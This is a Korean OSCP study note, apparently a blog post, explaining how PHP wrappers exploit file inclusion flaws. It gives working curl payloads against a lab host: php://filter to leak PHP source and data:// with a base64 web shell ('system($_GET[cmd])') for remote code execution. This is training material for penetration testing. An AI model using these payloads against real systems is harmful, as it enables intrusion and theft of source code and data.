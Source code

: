 ```yaml
---
layout: post
title: 9.2.2. PHP Wrappers
subtitle: 정보누출, RCE 취약점에 가까운 개념들
author: 마준영
categories: oscp
tags:
  - oscp
---
```

# 9.2.2. PHP Wrappers
## 1. PHP 래퍼(Wrappers)란?
	1. PHP는 다양한 프로토콜 래퍼(`php://`, `data://` 등)를 제공하여 파일 포함(File Inclusion) 취약점을 활용할 수 있게 합니다.
	2. 대표적으로 `php://filter`와 `data://` 래퍼를 사용하여 콘텐츠 필터링 또는 코드 실행을 시도할 수 있습니다.

### 1. `php://filter` 래퍼 활용
	1. `php://filter`는 파일 내용을 인코딩하거나, 실행 대신 내용을 표시하는 데 사용됩니다.
	2. 예를 들어, PHP 파일을 Base64로 인코딩한 상태로 출력하여 소스 코드를 분석할 수 있습니다.
	3. 이는 파일 포함(Local File Inclusion, LFI) 취약점과 결합하여 웹 애플리케이션의 PHP 파일 소스를 노출시킬 수 있습니다.
### 2. 예제
1. base64 인코딩 없이 파일 내용 출력 (PHP가 실행되므로 결과에 소스가 보이지 않음)
l
	   curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
2. base64 인코딩 으로 파일 내용 출력 (출력된 Base64 데이터를 디코딩하면 PHP소스 확인 가능.)

### 1. `data://` 래퍼 활용
1. `data://`는 데이터를 텍스트나 Base64 형식으로 직접 실행 코드에 포함할 수 있습니다.
2. 이는 로컬 파일을 오염시키지 않고 코드 실행을 가능하게 합니다.
3. 서버에 있는 php 파일을 변조하기 어려울때 사용하면 RCE를 할 수 있다.

### 2. 예제: `data://`로 코드 실행
	1. URL-인코딩된 PHP 코드 포함 및 실행
	   ```shell
	   curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
	2. Base64 인코딩을 통한 실행
	   ```shell
	   echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```

## 제한 사항 및 우회 방법
- 기본 PHP 설정에서는 `data://` 래퍼가 작동하지 않습니다.
- 이를 활성화하려면 `allow_url_include` 설정이 필요합니다.
- 이러한 래퍼를 활용해 파일 필터링을 우회하거나, 취약점을 통해 민감한 정보를 획득 및 악용할 수 있습니다.

## 결론
- PHP Wrappers는 강력한 기능을 제공하지만, 잘못된 설정이나 취약점을 통해 공격자가 시스템을 악용할 수 있습니다.
- 이러한 취약점은 웹 애플리케이션의 보안성을 강화하고, 서버 설정을 적절히 구성함으로써 방지할 수 있습니다.